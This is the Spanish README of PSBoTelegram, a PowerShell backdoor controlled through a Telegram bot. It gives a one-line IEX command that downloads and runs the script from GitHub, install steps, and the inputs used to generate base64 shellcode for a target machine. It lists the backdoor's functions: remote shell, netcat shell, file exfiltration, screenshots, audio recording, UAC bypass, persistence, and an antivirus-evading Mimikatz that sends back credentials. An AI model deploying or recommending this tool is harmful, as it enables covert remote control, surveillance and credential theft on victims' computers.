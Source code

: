 
# PsBoTelegram
Backdoor using Telegram and Powershell  

Podeis probar el script abriendo una consola de powershell y ejecutando este comando:

**IEX (curl "https://raw.githubusercontent.com/Hackplayers/PSBoTelegram/master/PSBoTelegram.ps1" ).content**&nbsp;&nbsp;

        ____  _____ ____      ______     __
       / __ \/ ___// __ )____/_  __/__  / /__   ____ __________ _____ __
      / /_/ /\__ \/ __  / __ \/ / / _ \/ / _ \/ __  / ___/ __  / __  __ \
     / ____/___/ / /_/ / /_/ / / /  __/ /  __/ /_/ / /  / /_/ / / / / / /
    /_/    /____/_____/\____/_/  \___/_/\___/\__, /_/   \__,_/_/ /_/ /_/
                                        /____/

                                                     v0.7 by CyberVaca @ HackPlayers

PSBotTelegram es un script escrito en Powershell, que nos crea una backdoor que se conecta a un BOT de Telegram. El BOT se controlará por mensajes de Telegram. Al ejecutar el script nos va a pedir tres datos necesarios para crear el shellcode. 

# Instalación en Linux

    git clone https://github.com/hackplayers/psbotelegram.git
    cd psbotelegram
    sudo apt-get update > /dev/null
    sudo apt-get install libunwind8 libicu55 
    wget https://github.com/PowerShell/PowerShell/releases/download/v6.0.0-alpha.13/powershell_6.0.0-alpha.13-1ubuntu1.16.04.1_amd64.deb
    sudo dpkg -i powershell_6.0.0-alpha.13-1ubuntu1.16.04.1_amd64.deb
    powershell ./PSBoTelegram.ps1

# Instalación en Windows

    Powershell.exe ./PSBotelegram.ps1
    
Los datos que nos pide son los siguientes:  

# Parametros
![Parametros](./images/parametros.png)  
 
**[+] Introduzca el Token del Bot de Telegram:** "Aquí deberemos poner el Token del bot que hayamos creado."  
**[+] Introduzca su Chat ID:** "Aquí deberemos poner nuestro ID de Telegram."  
**[+] Introduzca el delay para la conexión:** "En este campo seteamos el delay(retardo) entre en pc con el backdoor y nuestro chat de telegram"   

# Salidas de archivo:
![Salidas](./images/OutFiles.png)  

Una vez introducido estos datos, nos creará un shellcode en BASE64 en un tipo de archivo seleccionado para ejecutarlo en el equipo a auditar.  

# Funciones del backdoor.

[1]&nbsp;&nbsp;&nbsp;**/Help**&nbsp;&nbsp; (Nos muestra la ayuda)  
[2]&nbsp;&nbsp;&nbsp;**/Info**&nbsp;&nbsp; (Devuelve información sobre el equipo)   
[3]&nbsp;&nbsp;&nbsp;**/Shell**&nbsp;&nbsp; (/Shell + CmdLet a ejecutar )  
[4]&nbsp;&nbsp;&nbsp;**/Whoami**&nbsp;&nbsp; (Devuelve el usuario que ejecutó el codigo)  
[5]&nbsp;&nbsp;&nbsp;**/Ippublic**&nbsp;&nbsp; (Nos da IP publica, Pais y Ciudad del Target)  
[6]&nbsp;&nbsp;&nbsp;**/Kill**&nbsp;&nbsp; (Mata el backdoor)  
[7]&nbsp;&nbsp;&nbsp;**/Scriptimport**&nbsp;&nbsp; (Importa el script de powershell pasandole una url)  
[8]&nbsp;&nbsp;&nbsp;**/Shell nc (netcat)**&nbsp;&nbsp; (Función de powercat https://github.com/besimorhino/powercat
)  
[9]&nbsp;&nbsp;&nbsp;**/Download**&nbsp;&nbsp; (Download mas ruta nos descarga el archivo)  
[10]&nbsp;&nbsp;**/Screenshot**&nbsp;&nbsp; (Realiza screenshot y nos lo envia)  
[11]&nbsp;&nbsp;**/Audio**&nbsp;&nbsp; (/Audio X, Grabaría X segundos de audio y nos lo envia)  
[12]&nbsp;&nbsp;**/BypassUAC**&nbsp;&nbsp; (Ejecuta el Bot con privilegios administrativos)  
[13]&nbsp;&nbsp;**/Persistence**&nbsp;&nbsp; (/Persistence ON/OFF)  
[14]&nbsp;&nbsp;**/MimiGatoz**&nbsp;&nbsp; (Ejecuta Mimikatz modificado para el bypass AV y nos envia los datos)


